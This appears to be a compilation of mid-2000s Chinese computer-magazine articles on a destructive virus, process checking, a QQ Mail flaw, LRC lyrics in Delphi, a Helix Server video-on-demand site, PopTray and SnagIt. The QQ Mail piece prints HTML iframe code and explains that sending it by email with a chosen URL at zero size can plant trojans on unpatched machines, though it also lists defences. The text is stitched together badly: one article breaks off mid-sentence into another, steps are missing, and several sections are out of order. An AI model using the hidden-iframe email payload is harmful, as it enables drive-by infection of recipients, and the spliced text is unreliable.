前段时间，瑞星公司截获一个破坏能力与CIH相当的病毒，并将其命名为“新CIH (Win32.Yami)”，同时发布了本年度第一次橙色警报。许多读者发来邮件询问关于这个病毒的情况，我们从中整理了一些比较有代表性的问题，请瑞星专家逐一进行解答。

-   1. “新CIH”是怎样的病毒？它有什么危害？
    答:“新CIH”是一个可以在Windows2000/XP下运行，感染Windows可执行文件(PE格式文件)的病毒。发作后会用字符串“YM KILL YOU”覆盖硬盘原有数据，造成硬盘数据丢失。同时，该病毒发作后还试图向主板BIOS中写入垃圾数据，造成主板损坏。
-   2. “新CIH”与老CIH有什么关系？
    答:“新CIH”病毒与老CIH都是通过感染可执行文件进行传播，发作后都会破坏硬盘数据和主板BIOS。“新CIH”与老CIH不同的是，老CIH病毒只能在Windows 9x上发作，“新CIH”则可以在Windows 2000/XP上感染和发作。老CIH病毒会固定在每年4月26日发作，“新CIH”病毒发作条件较为特殊，不以固定时间为条件。
-   3. 相比今年的其他病毒，为什么认定只有“新CIH”达到一定危害并发橙色警报？
    答:警报的作用在于防患于未然，它和病毒疫情实时通报不同。瑞星决定发布本年度第一次橙色警报基于下面两点考虑:①它的破坏性大。“新CIH”病毒可以破坏用户的硬盘和主板BIOS数据。②很可能出现新的变种。从“新CIH”的病毒文件中可以看到“YM V1.1”的版本信息，虽然目前它只能通过感染可执行文件传播，但未来可能会出现通过邮件、IM工具(QQ、MSN)或系统漏洞传播，发作条件更为固定的病毒变种。
-   4. 用户应该如何防范这个“新CIH”病毒？
    答:建议用户升级杀毒软件到最新版本，同时打开文件监控功能防范此病毒。针对这个病毒，瑞星杀毒软件2005版和下载版已经进行了紧急升级，17.27.12及其更高版本可以彻底查杀此病毒。瑞星公司针对该病毒制作了专杀工具，非瑞星的用户可以下载专杀工具杀毒。专杀工具下载地址:http://it.rising.com.cn/service/technology/tool.htm。同时可以打开主板写保护功能防止这个病毒破坏BIOS。

（瑞星工程师 史瑀）

## 妙用TaskList 系统安全巧检测

Windows XP中有个tasklist.exe程序，在“开始→运行”中输入CMD，然后输入tasklist /svc就可以看到每个进程中的服务，其中会包括下面内容。

| 图像名 | PID | 服务 |
|--------|-----|------|
| SVCHOST.EXE | 732 | DcomLaunch |
| SVCHOST.EXE | 776 | RpcSs |
| SVCHOST.EXE | 840 | AudioSrv, Browser, CryptSvc, Dhcp |
| SVCHOST.EXE | 884 | DnsCache |
| SVCHOST.EXE | 960 | LmHosts, RemoteRegistry, SSDPSRV |
| naPrdMgr.exe | 1568 | 暂缺 |
| WDFMGR.EXE | 1576 | UMWdf |

这里的Svchost.exe进程是服务进程，但很多黑客都将木马进程伪装成svchost.exe(Windows XP的正常情况下有5个SVCHOST服务进程，并且都有相应的服务说明，Windows 2000正常情况有2个SVCHOST服务进程)。

如果出现:

| 图像名 | PID | 服务 |
|--------|-----|------|
| SVCHOST.EXE | 968 | 暂缺 |

这个进程就很可疑了，应该进行病毒查毒。另外，如果其他系统进程中出现无服务说明也有可能被木马冒充进程了。

（河北 香草天空）

## 小心你的QQ Mail出卖你

QQ Mail一直被很多黑客用来当作重要的入侵工具，主要原因就是它漏洞太多，入侵简单，只要稍微学过一点黑客技巧的人就能很轻松地将木马种植入你的电脑。

## 实战QQ Mail漏洞

第一步:打开QQ Mail，选择“新邮件”，点击右上角的“HTML”按钮，“确定”。

```
<html><body><iframe src="http://www.163.com" width="200" height="100"></body></html>
```

然后发送邮件。

第三步:对方接收到邮件后，不管所用的系统(包括Windows SP2在内)，都会弹出广告窗口。如果要把上面的代码修改为 src="指定网址" width="0" height="0"，那么一些未打补丁的用户，就可能因为这个问题就会被入侵者种上木马。

## 保护你的QQ Mail

上面的例子仅仅是QQ Mail众多漏洞中的一个，所以，针对QQ Mail的防护是必不可少的。下面我们就来介绍一些简单的防护方法。

-   1. 不轻易使用QQ Mail
    提供Mail服务的又不仅是腾讯，在腾讯没有修补好漏洞前，我们并不一定非要使用QQ Mail。
-   2. 使用QQ Mail的远程控制
    QQ Mail提供了与Foxmail相似的“远程管理”功能，而且使用方法很简单:打开QQ Mail后，按下F12键，打开“远程管理”窗口。其中，诸如“腾讯会员通知”、“你中奖啦”等主题直接删除即可，这些邮件即便不包含病毒，也多是垃圾信息。
-   3. 使用QQ Mail的邮件规则
    利用QQ Mail的邮件规则，我们可以更进一步保护好自己的系统。
    第一步:打开QQ Mail，选择菜单中的“工具→邮件过滤规则”。
    第二步:在弹出窗口中点击“新建”按钮，接着在“过滤项”下选择“非QQ邮件”，点击“确定”。再次点击“新建”按钮，在“过滤项”下选择“非地址簿中用户发来的邮件”(见图)，然后在地址簿中加上你信任的QQ好友邮箱即可。



最后，还要提醒你，打好系统补丁，也可以有效防御黑客从QQ Mail入侵。

（QQ）

## MP3歌词显示探密

MP3是年轻人永远的话题。如果能在听歌的同时看着歌词随声哼唱，那是一件多么快乐的事情啊！虽然www.51LRC.com那样的网站提供了许多LRC格式的歌词，但怎么能够在自己的程序中把歌词显示出来呢？

## 初探LRC歌词

首先我找了一个LRC格式的歌词文件一探究竟。用文本编辑器打开一看，LRC歌词文件的内容类似于:

```
[ti:Delphi程序之LRC歌词文件显示]
[ar:研吾程序园]
[al:www.nihg.org QQ 6276506]
[by:Nihg[研吾]]
[offset:500]
[00:00.00]Delphi程序之LRC歌词文件显示
[00:23.00]http://www.nihg.org 研吾程序园
[00:24.00]噢...
[00:25.00]宁静的小村旁
[00:26.00]有一个笨小孩
[00:28.00]出生在六十年代
[00:31.00]十来岁到城市
[00:33.00]不怕那太阳晒
[00:34.00]努力在七十年代
```

根据搜索到的资料，在[00:00.00]时间标签之前的多行内容是一些说明，正如写程序时的初始化信息。我们的主要工作就是根据当前的时间标签来显示相对应歌词内容。

## 程序设计思路

我将以最爱的Borland Delphi7来设计程序。程序中用到的音乐文件为test.mp3、歌词文件为test.lrc，你可以从http://www.cfan.com.cn/11program/200511/lyrics.zip下载。

Delphi提供的MediaPlayer组件可以用来播放MP3歌曲，首先让我们设计窗体如图所示。



Memo1组件读入歌词文件后，将歌词文件分成时间标签与歌词内容两部分，分别存到Memo2与Memo3中，当然这两块内容正好被安排在这两个Memo组件的同一行当中。程序只要根据当前歌曲的播放进度，找到并显示相应的歌词内容。我用了一个Timer不断地监视当前播放时间，判断它是否与Memo2中的时间数相同，如果是则在Memo3中显示一行歌词，从而达到实时显示歌词内容的目的。

## 代码实现

Timer1控件主要作用是取得当前歌曲的## 零成本搭建网络视频点播系统

随着宽带的发展，网络上传输音频甚至视频也越来越流行，人们不断追求个性、互动的媒体娱乐。其中，视频点播（简称VOD，即Video On Demand）是20世纪90年代在国外发展起来的媒体技术，利用这种技术，观众想看什么就看什么，想什么时候看就什么时候看，非常具有商业潜力。

本文以Windows平台的Helix Server流媒体服务器为例，向大家介绍基于浏览器的网络视频点播系统。借助Microsoft IIS 5.0、Microsoft Access 2000数据库及动态网页脚本语言ASP，视频点播系统界面友好并且管理方便，最重要的，成本几乎为零！

### 架设基本知识普及

- 1. IIS是Internet Information Server的缩写（Internet 信息服务器），我们的视频点播平台主要使用IIS的Web服务器功能。
- 2. 流媒体（Streaming Media）：一种网络视频传输技术，用以在互联网上实时传输视频、音频等多媒体内容的连续数据流。传统的网络传输视音频等多媒体信息的方式是完全下载后再播放，而采用流媒体技术，可实现边下载边播放的效果。这样，不仅大大节省了用户的等待时间，而且有效地节约了宝贵的带宽资源。现在比较流行的流媒体技术有Real System、Windows Media Technology和QuickTime。本文介绍的是Real System，其流媒体文件格式为RM和RMVB。

### 打地基——安装配置IIS

如果说组建VOD系统好比盖一栋摩天大楼，安装与配置IIS好比打下深深的地基，惟有良好开端，才是成功的一半。

### 1. 检查是否安装了IIS

首先请检查系统是否已安装了IIS服务：依次单击“开始→控制面板→管理工具”，查看“管理工具”里是否有“Internet 服务管理器”，如果有则表明你的电脑已安装IIS服务，否则请按照以下方法安装：插入Windows 2000安装光盘，然后依次单击“开始→设置→控制面板→添加删除程序”，选择“添加删除 Windows 组件”，你会看到有一个叫“Internet 信息服务”的选项，在选项上打勾，然后再按“下一步”，这样，Windows 就会在你的电脑上安装IIS服务了。

### 2. 测试IIS

启动IE，在地址栏输入：http://localhost/，如果IIS安装正确，就能打开Microsoft默认ASP页面。反之，则需要检查并修复IIS服务的安装。

### 3. 发布你的站点

IIS默认发布目录是C:\Inetpub\wwwroot，只要把ASP文件放到这个文件夹里，就可以在本机调试了。下文都以C:\Inetpub\wwwroot作为默认的IIS发布目录。站点首页的文件名一般为default.asp或default.htm或iisstart.asp。

### 造高楼——安装配置Helix Server

在IIS坚实的支撑下，现在让我们开始盖这座摩天大楼。Helix Server 9.0是提供流媒体服务的软件，根据可同时连接用户数的多少和对可使用的最大带宽的限制，Real Server可分为几个不同类型，其中Basic是免费版本，仅对带宽有所限制。

### 1. 安装Helix Server

- 第一步：运行软件包里的安装程序，一般为rs901-win32.exe形式的文件，就会启动安装向导。
- 第二步：安装程序要求你指定Helix Server的许可文件的存放位置，该文件扩展名为.lic，它是Real公司为保护其产品版权的关键性文件，如果Helix Server服务不能正常启动，一般是因为这个文件已过期或与对应的Server软件不相配。然后单击Next按钮。
- 第三步：接受协议后，安装程序要求输入一个用户名和口令，以便以后可以登陆基于Web的Helix Server管理及监视页面，所以用户名和口令需牢记。
- 第四步：按照图1输入Helix Server的各个端口号。其中，PNA端口采用默认的7070即可；RTSP端口采用默认的554；HTTP端口不能采用默认的80端口，因为80端口是IIS中Web服务的默认端口，需要重新指定一个端口如8080；MMS端口号也可以采用默认的1755；用于监听Admin的端口号是安装向导随机给出的，你可以把它改为一个容易记忆的端口号，如111，只要是空闲的端口就可以。再单击Next按钮，要确保选项Install Helix Server as an NT Service被选中。之后可以单击Finish按钮（见图1），安装向导开始拷贝文件，完成后单击Ok按钮结束安装过程。



### 2. 配置Helix Server

Helix Server服务软件安装完成后，需要配置才能使用。具体步骤如下：

- 第一步：安装完Helix Server后，你可以双击桌面上的Helix Server快捷方式启动服务，当启动完成后，DOS窗口会自动关闭，服务在后台运行。
- 第二步：双击桌面上的Helix Server Administrator快捷方式，会出现一个登录窗口，输入安装时指定的用户名和口令，就会打开管理页面，如图2所示，现在可以对服务器进行配置和管理了。

小提示

如果想在远程电脑上进行管理，可在IE地址栏里输入http://HelixServer:111/admin/index.html，其中HelixServer 为服务器的名字或者 IP 地址，111 为安装时指定的管理端口号。



图 2

- 第三步：在图 2 所示的管理页面的左侧，列出了服务器设置的具体项目，其中必须进行相应配置的项目选项卡有：
- □ “IP 绑定”选项卡
单击页面右侧 “+” 号图标，将 IP 地址绑定为 “0.0.0.0”，然后单击“应用”按钮，系统会提示“你必须重新启动服务器以使得更改生效”，单击“确定”按钮并关闭当前窗口，然后单击管理页面右上角的“重启服务器”按钮。以后每一次改动都需要按此方法重启服务器，下面不再重复。关于“IP 绑定”，我的经验是，如果你的 Helix Server 服务器是在局域网内，则不管是固定 IP 还是自动获取的 IP，都绑定为“0.0.0.0”；如果你的 Helix Server 服务器是直接挂在公网上，则绑定为你的公网 IP 地址，而如果公网 IP 是动态分配的，则也要绑定为“0.0.0.0”。
- □ “连接控制”选项卡
其中，“最大用户连接数”栏，要根据站点可能达到的同时提出点播请求的最大数目来确定，但不能超过许可证允许的最大连接数；“最大带宽”栏里填写所允许的 Helix Server 服务占用的网络最大带宽，如果设为 0，则使用你的网络实际最大带宽来为 Helix Server 服务，但这个数目不能也不会超过 Helix Server 所允许的最大带宽数。
- □ “配置加载点”选项卡
这里配置相对复杂一点，也非常关键。“加载点”的实质是定义一个虚拟路径，该虚拟路径对应着你的服务器硬盘上存放供用户点播的流媒体文件的实际文件路径。首先单击 “+” 号图标新建一个 “加载点”，“编辑描述” 为 “myfilm ”，“加载点” 为 “/vod/”，注意两侧的 “/” 一个也不能少，“基于路径” 为 “f:\film”，即加载点 “/vod/” 对应着路径 f:\film 文件夹，而 f:\film 文件夹里存放着供用户点播的流媒体文件。如果你的流媒体文件分散放在很多文件夹里，你可以增加多个加载点，数目不限。

按照上述步骤进行配置，你的 Helix Server 服务器便配置成功了。

### 3. 测试 Helix Server 服务器

打开 RealPlayer 播放器，点击“打开…”菜单项，在对话框中输入 rtsp://HelixServer/vod/real9video.rm 并确定，其中 HelixServer 为服务器的名字或者 IP 地址，real9video.rm 为 f:\film 文件夹里的人为放置的一个文件，Real Player 播放器便开始与 Helix Server 服务器连接，经过短暂的缓冲就开始播放指定的流媒体文件。大功告成了！

## 富丽堂皇——构建视频点播平台

虽然流媒体点播服务器已经架设成功，但使用起来非常麻烦，每次都要输入 URL 足够让人打退堂鼓了。实际上，我们目前的工作仅仅是建设了大厦基本设施，如果不加装饰不装电梯，大楼的价值便会大打折扣。
实际，我们可以发挥程序威力：先设计一个数据库，表里存放着视频点播资源的相应信息，再设计一个点播页面，显示数据库里的信息，比如编号、题目、演员、上传日期等等，并且还要把流媒体节目的题目设置为超级链接，当用户点击此链接时，就会打开 RealPlayer 播放器播放视频流，从而实现视频点播功能。点播页面的内容可以根据数据库的更新而自动更新，大大简化了点播站点的维护工作，而且还给用户更好的点播体验，真是两全其美。

### 1. 设计数据库

为方便起见，这里采用 Microsoft Access 2000 数据库，它完全可以满足中小企业及学校等企事业单位的需求。数据库文件取名为 vod.mdb，数据表 film 结构如下：

| 字段名称 | 数据类型 | 说明 |
|---|---|---|
| ID | 自动编号 | 课程编号 |
| TITLE | 文本 | 课程名称 |
| DOG | 文本 | 主讲人 |
| URL | 文本 | RTSP 链接地址 |
| DATE | 日期/时间 | 节目上传日期 |

一个典型的记录如下：

| ID | 1 |
|---|---|
| TITLE | 点击此处测试流媒体服务器 |
| DOG | 张三 |
| URL | rtsp://192.168.1.152/vod/real9video.rm |
| DATE | 2005-1-6 |

照上表的格式，把你所有的点播资源的相应信息录入到数据库中，需要注意的是数据库中的每一条记录要对应着服务器磁盘上的一个流媒体文件。完成以后把 vod.mdb 复制到 C:\inetpub\wwwroot\data。

### 2. 设计点播页面

ASP(Active Server pages)是 Microsoft 的动态服务器端脚本技术，已经内含于 IIS3.0 以上版本之中。通过 ASP，我们可以结合 HTML 网页、ASP 指令和 ActiveX 控件建立动态、交互且高效的 Web 服务器应用程序。编写 ASP 程序非常简单，仅仅用记事本程序便可以完成。
用户当然希望点播页面赏心悦目一些，由于 Frontpage 及 Dreamweaver 等软件已经足够强大，所以这里仅仅介绍视频点播功能的实现，美化的任务你可以自由发挥。
首先建立与数据源的连接。在站点首页文件 default.asp 的前面加入以下代码：

```
<%
dim conn,connstr,db
db = "data\vod.mdb"
Set conn = Server.CreateObject("ADODB.Connection")
connstr = "driver={Microsoft Access Driver (*.mdb)};dbq=" & Server.MapPath(db)
conn.Open connstr
%>
```

其中，db="data\vod.mdb" 一句定义了虚拟路径 db，即站点根目录下 data 子文件夹里的数据库 vod.mdb。
为了从数据表里读出记录，并在点播页面里显示出来，在 default.asp 里加入以下代码：

```
<%
'定义记录集
set rs = server.createobject("adodb.recordset")
'film 为存放点播资源信息的数据表
sql = "select * from film order by date desc"
'打开记录集
rs.open sql,conn,3,1
'设置循环，以记录集的尾为循环结束标志
do while not rs.eof
%>
```

```
<table border="0" width="100%">
<tr>
<td width="15%"><%=rs("id")%></td>
<td width="55%"><%response.write "<a href='"&rs("url")&"' >"&rs("title")&"</a>"%></td>
<td width="15%"><%=rs("dog")%></td>
<td width="15%"><%=rs("date")%></td>
</tr>
</table>
```

```
<%
'记录集向后移动一个记录指针
rs.movenext
'返回，继续循环，直至循环条件为假
loop
rs.close
'关闭记录集
set rs = nothing
conn.close
'断开数据库连接
set conn = nothing
%>
```

OK，现在可以进行测试了！
把包含上面代码的 default.asp 文件拷贝到 C:\inetpub\wwwroot，并且确保已经启动了 Helix Server 服务。启动 IE，在地址栏里输入 http://HelixServer/，其中 HelixServer 是服务器的 IP 地址或者计算机名，就会打开点播页面。单击超级链接就会打开 RealPlayer 播放器播放视频流。
采用本方案实现的视频点播系统有效地利用了网络硬件资源和软件资源，实现简单，运行稳定、可靠，维护方便，点播缓冲时间短，网络带宽占用少，是学校、企事业单位实现视频点播功能可行途径。

（威海 于青峰）


## 1. PS 笔刷设置详解

网页地址：http://www.yesky.com/SoftChannel/72351172283007232/20041202/1882914.shtml
http://www.yesky.com/SoftChannel/72351172283007232/20041202/1882934.shtml
http://www.yesky.com/SoftChannel/72351172283007232/20041202/1882933.shtml

重点体会：这是一系列文章，作者对画笔调板作了非常详尽的讲解，看过之后会对我们了解 Photoshop 中的画笔有很大帮助。

延展练习：巧妙运用动态画笔往往能实现意想不到的效果，比如设置好一个动态画笔后，让它沿着某个特定的路径(如绘制的心形路径)进行描边操作，看看能有什么效果。

## 2. Photoshop 高级图层技巧进阶篇

网页地址：http://www.pconline.com.cn/pc edu/sj/pm/photoshop/0308/208432.html


## 1. 一款漂亮却设置简单的光标跟随效果实例

网页地址：http://comic.qq.com/a/20040915/000011.htm

重点体会：这个实例主要是做个循环：在第 2 帧的时候返回到第 1 帧，然后继续播放到第 2 帧，再返回到第 1 帧，以此类推反复循环。

延展练习：借鉴这个实例中的方法，可以改造本文中的星光闪烁实例，制作出群星都围绕一颗星星作环绕运动的动画，而中间那个星星可固定到鼠标箭头的中心。

## 2. 纯动作脚本制作出的光标跟随效果(文字)

网页地址：http://www.7880.com/Info/Article-1d77f200.html

重点体会：本例在关键之处都给出了详尽的解释，大家可以参考此例学习体会一下 Flash 中 ActionScript 动作脚本的妙处。

延展练习：掌握此例的 ActionScript 动作脚本，制作出类似该例的文字跟随效果。

## 3. 用 Flash 制作 3D 鼠标跟随特效

## 让所有邮箱都能即时“通信”

PopTray 是一款通过POP3协议随时检查邮箱是否有新邮件的软件，它能检查20个信箱账号，而且可以使用不同的提醒声音，还具有预览邮件、从服务器删除邮件、自定义规则等功能。

### PopTray小档案

- 软件版本: 3.1
- 软件大小: 1072KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://nj.onlinedown.net/soft/2588.htm

第一步：安装并运行软件，右击系统托盘的软件图标，选择“Show messages”，然后点击“Options”选项卡下的“Defaults”，修改“Language”下拉菜单项为“Chinese”，点击“Refresh→Save Options”按钮，完成软件的汉化。

第二步：点击“账号”标签，开始添加邮箱账号。先点击“增加账号”按钮，开始输入邮箱的信息，在“姓名”中输入任意名称，“服务器”中输入邮箱的POP3服务器，“协议”选择“POP3”，“登录”及“密码”处分别输入邮箱的账号名及密码(见图)。点击“增加账号”按钮，重复此步，完成多个邮箱账号的添加。

> 小提示
如果你需要添加的邮箱是Hotmail、Gmail或Yahoo，可以先安装FreePOPs(下载地址:http://freepops.org/，使用方法可参考本刊2004年第22期《“邮”刃有余 FreePOPs》)，然后设置服务器为“127.0.0.1”，“协议”为“POP3”，“端口”为“2000”，“登录”及“密码”处分别输入账号名及密码即可。



第三步：点击“邮件”选项卡下的“检查所有账号”按钮，如果一切设置正确，这时就能看到被监测邮箱中的邮件了。之后点击“运行电子邮件程序”按钮，收取邮件。

第四步：为了让软件工作得更好，我们需要对它进行设置。点击“选项”标签，在“间隔”项下，我们可以设置检查新邮件的间隔时间，为了保证即时收到邮件，推荐使用默认值；点击“默认值”项，这里主要修改“电子邮件”，软件默认的设置为Outlook Express，如果需要修改，可以点击它后面的“…”按钮进行修改；最后，点击“一般选项”，勾选“启动时检查新邮件”、“启动时最小化”及“以信息气球通知”项即可。

现在，可以点击“×”按钮，最小化软件窗口，这时设置好的邮箱一收到邮件，PopTray就会弹出提示消息，即可进行收取了。

除上面这些功能外，通过软件设置界面的“规则”选项卡，可以添加各种邮件处理规则，只是目前软件还不支持中文，所以此功能对于中文系统用处不大，这里不再详细介绍。

PopTray强大之处除了其本身外，更具有多种实用插件，比如官方就提供了数种插件，你可以从http://www.poptray.org/plugins.php下载到它们，官方提供的插件使用方法很简单，只要直接安装插件，然后在软件设置窗口中勾选“选项”选项卡下“插件”项中的相应插件即可。而对于Messenger Popup插件（用于修改PopTray检测到新邮件时弹出的气泡窗口样式。下载地址为http://james.istop.com/PopTray/MessengerPopup/）及Microsoft Speech插件（当收到新邮件时，可以“听到”寄件人、主题等信息。下载地址为http://james.istop.com/PopTray/MicrosoftSpeech/）插件，则需要手工在PopTray安装目录下建立好Plugins目录，然后将下载的DLL插件放置在该目录中，再从软件设置窗口中调用。

（云 & 杨）

## 实例 1：菜鸟初试身手，桌面图像随意抓

第一步：最新版 SnagIt 7.2.3 下载地址为 http://nj.onlinedown.net/soft/5306.htm(汉化补丁：http://yncnc.onlinedown.net/soft/5305.htm)，下载并安装后，运行 SnagIt，如果尚未注册会弹出要求注册的对话框，单击“继续试用”按钮即可进入其主界面，如图1所示。



第二步：为以后使用方便，特别是实现按下一个键就能快速截图，建议点击“工具→程序参数设置”，在弹出窗口的“热键”选项卡中在“全局捕获热键”下单击取消对Ctrl及Shift的勾选，再从右侧的下拉列表中选择PrtScr键(也就是键盘右上角的Print Screen键)，这样当开启着SnagIt时，只要一按Print Screen键即可截图。

第三步：笔者正在用Word写作本文，首先抓取一个Word窗口试试。在SnagIt中，单击左侧“基本捕获配置文件”下面的“窗口到文件”项，按下Print Screen键，这时SnagIt窗口会自动隐藏起来，将光标移到需要捕获窗口的标题条上（本例为Word窗口），该窗口将被一个粗方框包围起来（见图2），此时单击鼠标将打开捕获预览窗口，被捕获到的Word窗口显示在其中，并且光标也被抓取到了。

> 小提示
标准Windows窗口中的菜单栏、工具栏、编辑区、标尺等界面元素，实际上也都是窗口对象，称为子窗口，因此也可以通过SnagIt将它们单独抓取下来，在抓图过程中，将光标分别移到这些对象上面，当显示出粗方框包围这些对象时，单击鼠标即可。

## 桌面“数码相机” SnagIt

不少初学者对《电脑爱好者》杂志中Windows、应用软件的界面插图很感兴趣，想知道作者是如何将它们保存下来的，更好奇插图上所配的文字是如何加上去。其实这全靠截图软件的帮助，有了它，你可以随时按下相应快捷键，将当前的画面保存为图像文件，然后再利用截图软件中的相关工具直接在图片上写下文字。而今天要给大家介绍的专业抓图软件SnagIt，则相当于一款高级的“数码相机”，它不但能将整个屏幕或当前窗口图像抓取成图片，还可以截取文本、控件、自定义的特殊区域图像等，并具有“连拍”等多种特殊的功能。



第四步：捕获预览窗口还提供了许多工具，可以用来在截图上添加文字、箭头及图形等。这里试着给截图添加一个有指向性的注释框。如图3所示，单击文字工具（“A”图标），在截图的适当位置画一个文字框，然后在下面的编辑框中输入相应文字，并设置字体、字号及颜色等，输入完毕单击“确定”按钮返回；拖动文字框四周的节点可以调整文字框大小，拖动文字可以调它的位置；点选文字工具下面的形状工具，在属性中选择圆角矩形，然后画出一个矩形框将文字围住；点选箭头工具（第二行第三个图标），单击样式按钮可选择一个箭头样式，然后从矩形框处画一个箭头指向相应的位置即可。默认情况下，属性框中的“阴影”项是选中的，所以画出来的注释图形非常好看，当然你也可以根据需要取消它。工具箱中还有一个印章工具，提供了许多有趣的图形（可以从SnagIt网站下载更多图形），作为有趣的点缀。



> 小提示
如果觉得SnagIt的编辑功能不够用，可调用专业图像处理软件来进一步编辑图像。单击工具栏上的“程序”按钮，将弹出一个对话框，列出了当前系统中所有能处理图片的程序，选择一个（如Photoshop）后确定即可。

第五步：在SnagIt中编辑好截图后（也可以暂且不编辑它），单击捕获预览窗口工具栏上的“完成”按钮，在打开的对话框中设置好文件名和路径，保存即可。或者可以单击工具栏上的“发送邮件”、“IM”或“网络”按钮，把截图发到邮件、MSN上，或者上传到FTP服务器上。

## Just Do It!

在“基本捕获配置文件”中还有好几个特色抓图选项，操作步骤差不多，大家不妨试一试：

- ★只抓取想要的那部分

  网易彩信站http://mms.163.com/的“动画推荐”中，有许多漂亮图片让人爱不释手，但右击这些图片并选择“图片另存为”时，会发现得到的只是一个空白文件。此时可运行SnagIt，选择“区域到文件”项，单击“捕获”按钮后，可以按住鼠标左键不放并划定一个矩形框选住想要的图片，放开鼠标键后即可打开预览窗口，单击“完成”保存即可。此选项可截取屏幕上的任意区域。

- ★精美图标一点即收

  选择“屏幕中的对象”项进行捕获，只要点击一下屏幕上的某个图标，即可收抓。

- ★单击SnagIt主界面左侧的“编辑”标签，再单击

## 实例2：我的截图有点酷

许多人截出来的图都千篇一律，四四方方的矩形，毫无个性，喜欢张扬的我们怎么能随波逐流，下面就跟我一起来截一些另类图片，比如：形状不规则，甚至像故意撕坏的样子，同时再加上自己的标志（比如：网站Logo、公司Logo、自己的名字等），把这些图片贴到论坛里，“回头率”都会提高！

第一步：在右侧“捕获设置”栏中，单击“过滤”下拉箭头，选择“过滤→边缘效果→撕纸边缘”，在弹出的对话框中，一边调整效果大小及阴影设置等项，一边察看右侧的预览效果，满意后单击“确定”。

第二步：接着选择“过滤→水印”，在弹出对话框中勾选“启用水印”，然后单击“图像文件”右侧的文件夹图标按钮，选择一个准备好的个性图片（本例是一个简单的文字图片：“电脑爱好者”）；显示效果选择“衬托”；单击“高级设置”，然后根据提示文件调整水印的位置、大小等；设置好后，单击“确定”按钮返回SnagIt主界面。

> 小提示
辛辛苦苦完成的新配置文件当然要保存起来，以备将来使用。单击主界面右下方的“保存配置文件”，在弹出的对话框中选择“存为新文件”，设置好名称后再单击“保存”便可。你会发现SnagIt会在“我的配置文件”下列出自己的配置文件列表，方便使用。

第三步：单击“捕获”按钮（或者按Print Screen键）抓取特定的窗口，保存图像即可，效果如图4所示。



> 小提示
以上的效果，可以在捕获预览窗口中直接进行设置，但是每张图片都要单独设置。而保存为配置文件后，就省去了一一设置的麻烦了。

## 实例3：让文字无处遁形

一些加了密的网页文件、PDF文件，以及一些提示窗口、属性窗口上的文字如何才能复制下来呢？请用SnagIt。除截图功能外，SnagIt还可以提取出各类窗口中的文字，提取出来的文字是可以直接在字处理编辑器中编辑使用的。下面举一个简单实例。

第一步：右击桌面上“我的电脑”图标，选择“属性”命令打开系统属性对话框。这个对话框的“常规”标签中，有操作系统版本、系统序列号、CPU频率及内存大小等信息，这些信息是无法选取并复制粘贴的。

第二步：运行SnagIt，选取“其它捕获配置文件→窗口文字”项，按Print Screen键，在系统属性对话框的标题条上点击一下，在打开的捕获预览窗口上单击“完成”，将文字保存为TXT文本文件即可。

## 实例4：给屏幕架个摄像机，做一个Word视频教程

### 择“区域”等选项来灵活设置捕获范围。

经常有菜鸟请教您如何使用某款软件，是不是有些烦了，何不制作一个视频教程，让他们一边看一边学？有了SnagIt，就相当于有了一架摄像机，它能忠实地帮你将屏幕上所有动作捕获下来，轻松制作成教学视频，下面来试试做一个Word使用视频教程。

第一步：在SnagIt中选择“其它捕获配置文件→录制一个屏幕视频”项，然后在右侧“捕获设置”中将“输入”选择为“屏幕”，这样会将整个屏幕动作录制下来，当然也可以选

第二步：要制作软件视频教程，一定要有讲解，所以还要在“捕获设置”的“选项”中按下麦克风图标按钮（录制音频），这样就可以用麦克风输入音频了，SnagIt会自动将音频与视频整合起来。

第三步：点击“捕获”按钮，在弹出的“SnagIt视频捕获”中点击“开始”，这时整个屏幕的四周会有一个方框在闪烁，在系统托盘中会出现一个摄像机图标，“屏幕录像”就开始了。剩下要做的就是启动Word软件，为大家用鼠标演示Word功能操作和用麦克风讲解相关要点，完成后双击系统托盘中的摄像机图标，选择“停止”，在随后打开的预览窗口中，点击“播放”按钮，SnagIt会自动调用Windows Media Player来播放这段视频。如果满意录制的效果，就可以点击“完成”按钮将屏幕视频保存成AVI文件格式了。

> 小提示
轻松获取扫描仪或数码相机中的照片
本例中将“捕获设置”中的“输入”设置为“屏幕”，用来获取整个屏幕的图像。实际上，通过对输入项的设置，还可以获取来自扫描仪或数码相机的图片：单击“输入”后面的“...”按钮，在打开的输入属性对话框中点击“扫描仪和数码相机”标签，再单击“选择”按钮选择源驱动设备即可。

## 实例5：给电脑装一个监控摄像头

妙用SnagIt的定时抓屏功能，还可以把SnagIt打造成一个“摄像头”，即使远在外地，也能随时监控自己电脑的状态。

第一步：在SnagIt主界面上，选择“基本捕获配置文件→整个屏幕”项。接着在右侧捕获设置窗格中，单击“输出”下拉按钮，选择“发送邮件”项，再单击其右侧的“...”按钮打开输出属性对话框，选择“不提示，使用预置默认的邮件”项，并在“指定地址”栏中输入E-mail地址，收件人名及邮件主题内容可自定义，最后按下“确定”按钮。

> 小提示
要利用邮件监控电脑状态，必须先设置好你的Outlook Express，SnagIt还不“认识”Foxmail，设置Foxmail邮件账户将不起任何作用。如果安装了Windows XP SP2，在发送邮件时会出现确认对话框。
另外，如果希望通过MSN来随时监视远程电脑上的状态，可将“输出”项设置为“即时聊天程序”，再点击“...”打开输出属性对话框，在“联系人选择方法”中点选“预置列表”项，并单击其右侧的“选择”按钮，选择一个MSN用户即可（最好是你自己的第二个MSN账户，进行此项操作时最好打开你的Windows Messenger或MSN，以便SnagIt获取MSN用户列表）。

第二步：在右侧捕获设置窗格中，单击最下方“选项”中的定时器按钮（即小闹钟图标），打开定时器设置窗口，勾选“使用延时/计划捕获有效”项，根据提示进行设置即可。SnagIt将根据你的设置，定时将该电脑屏幕截取下来，并发送到你指定的邮箱或MSN账户上。

## 实例6：来吧，做个专业的网页相册

许多电脑爱好者同时也是一个“驴友”，经常出外旅游会拍回大量数码相片；如果能将这些数码相片制作成一张张网页，上传到自己的个人站点上，一定会受欢迎的。使用SnagIt，只需点几下鼠标就能完成一张专业的相册网页。

第一步：在SnagIt中选择“管理”标签；再点击“从图像文件创建一个网页”，打开创建网页向导。在“创建网页(步骤1 共5)”中输入“网页标题”，如：“CFan电脑爱好者”；“选择主题”可设置为“缩略图”；背景可以是任意图像、纹理或者无背景；设置完成，点击“下一步”。

第二步：步骤2和步骤3都不需要修改，直接单击“下一步”进入步骤4，在此可对“网页外观”、“超链接颜色”、“缩略图大小”等进行自定义设置，一般默认即可，再“下一步”。

